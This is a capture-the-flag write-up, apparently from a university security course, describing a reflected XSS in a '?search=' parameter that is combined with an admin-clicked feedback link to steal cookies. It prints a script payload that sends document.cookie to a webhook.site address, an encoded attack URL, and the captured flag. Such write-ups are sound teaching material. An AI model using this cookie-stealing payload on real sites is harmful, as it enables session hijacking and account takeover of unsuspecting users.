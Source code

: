 # Challenge `My favourite cookies` Writeup

- Vulnerability: 
  - XSS attack
- Where:
  - Feedback link input
- Impact:
  - allows to steal remote user's cookie

## Analyzing the server

This challenges consists in grabbing the admins' cookies.
From the previous challenge, we know that the server is vulnerable to XSS attacks.
The feedback feature allows us to submit a link that the admin will click on.

## Exploit

Knowing that the admin will click on the link, it's possible to take advantage of the search URL parameter 
`?search=` to send a malicious payload that will reveal the cookies on his browser and then send them
to us.
Start by creating a website on [Webhook](https://webhook.site/) which will receive the remote requests.
Then, get the link to the website and create the following payload:
`<script>location="https://webhook.site/your-unique-id/"+document.cookie</script>`.
Encode the payload to ensure that it will be correctly interpreted:
`%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
Finally, append it to the URL parameter `?search=` and submit it to the admin.
`http://mustard.stt.rnl.tecnico.ulisboa.pt:22251/?search=%3Cscript%3Elocation%3D%22https%3A%2F%2Fwebhook.site%2Fyour-unique-id%2F%22%2Bdocument.cookie%3C%2Fscript%3E`
In the webhook site, a GET request will show up with the cookies in the URL
`https://webhook.site/your-unique-id/SECRET=SSof%7BThis_is_my_secret%7D` revealing the flag
`SSof{This_is_my_secret}`.

## Implementation

No script needed.